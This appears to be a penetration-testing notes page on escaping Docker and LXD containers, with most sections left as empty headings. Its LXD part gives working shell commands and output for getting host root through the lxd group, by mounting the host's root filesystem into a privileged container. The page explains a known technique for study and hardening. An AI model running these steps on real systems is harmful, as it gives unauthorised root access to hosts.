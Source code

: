 # Escaping Containers

This section will focus on the two most popular containerisation technologies, Docker and LXD.

https://gist.github.com/FrankSpierings/5c79523ba693aaa38bc963083f48456c

## User Namespaces

[https://docs.docker.com/engine/security/userns-remap/\#enable-userns-remap-on-the-daemon](https://docs.docker.com/engine/security/userns-remap/#enable-userns-remap-on-the-daemon)

## Mount Points

## Docker Specific

## LXD Specific

### LXD Hooks

### Privileged Containers

All bets are off with privileged containers, to test out creating one we want to do the following

```bash
sudo su
lxc launch ubuntu:16.04 --security.privileged=true
lxc exec <name> bash
useradd tecmint
passwd tecmint
mkdir /home/tecmint
chown tecmint:tecmint /home/tecmint
usermod -a -G lxd tecmint
su tecmint
```

If you have either root privileges within a privileged container, or are a member of the lxd group, you can easily get root access on the host.  To do this, you'll have to mount the root directory under a container.

```bash
ubuntu@ubuntu:~$ lxc init ubuntu:16.04 test -c security.privileged=true 
Creating test 
ubuntu@ubuntu:~$ lxc config device add test whatever disk source=/ path=/mnt/root recursive=true 
Device whatever added to test 
ubuntu@ubuntu:~$ lxc start test 
ubuntu@ubuntu:~$ lxc exec test bash
```

Here we see us creating a file within the /root/ directory under the mountpoint as shown.

```bash
root@test:~# cd /mnt/root 
root@test:/mnt/root# ls 
bin   cdrom  etc   initrd.img  lib64       media  opt   root  sbin  srv  tmp  var 
boot  dev    home  lib         lost+found  mnt    proc  run   snap  sys  usr  vmlinuz 
root@test:/mnt/root# cd root 
root@test:/mnt/root/root# ls 
root@test:/mnt/root/root# touch ICanDoWhatever 
root@test:/mnt/root/root# exit 
exit
```

And so we see that the file has been created within our root directory.

```bash
ubuntu@ubuntu:~$ sudo su
root@ubuntu:/home/ubuntu# ls /root 
ICanDoWhatever 
root@ubuntu:/home/ubuntu#
```

This can be used quite trivially for container escape, as mounting the root directory in a nested container will mount the hosts container as all lxd commands run on the host.

## References

[https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful](https://www.zopyx.com/andreas-jung/contents/on-docker-security-docker-group-considered-harmful)  
[https://fosterelli.co/privilege-escalation-via-docker.html](https://fosterelli.co/privilege-escalation-via-docker.html)  
[https://linuxcontainers.org/lxc/getting-started/](https://linuxcontainers.org/lxc/getting-started/)  
[https://github.com/lxc/lxd/issues/2003](https://github.com/lxc/lxd/issues/2003)  
[https://reboare.github.io/lxd/lxd-escape.html](https://reboare.github.io/lxd/lxd-escape.html)  
[https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/](https://insights.ubuntu.com/2017/06/15/custom-user-mappings-in-lxd-containers/)

